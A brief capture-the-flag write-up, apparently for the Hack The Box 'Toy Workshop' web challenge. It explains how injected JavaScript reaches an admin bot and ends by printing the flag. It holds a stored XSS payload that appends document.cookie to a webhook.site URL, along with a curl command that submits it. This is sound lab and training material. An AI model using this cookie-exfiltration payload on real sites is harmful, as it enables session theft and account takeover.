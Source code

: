 # Toy Workshop

## Challenge

We're given a link to a website with nothing to interact with.

Source code is provided.

## Solution

Inspecting the source, we can see some hidden routes, including one which accepts a POST request.

The request is stored in a database and later accessed by an admin bot.

We can inject javascript into this request so that when the bot visits it, it will leak the flag and send it to our webhook.

## Exploit

`payload.json`:

```json
{
    "query": "<script>fetch('https://webhook.site/e89ade46-1d87-4375-9672-381e5d2fd920?' + document.cookie)</script>"
}
```

`exploit.sh`:

```bash
#!/usr/bin/env bash

curl -X POST -H "Content-Type: application/json" --data @payload.json http://134.209.184.105:30556/api/submit
```

## Flag

`HTB{3v1l_3lv3s_4r3_r1s1ng_up!}`
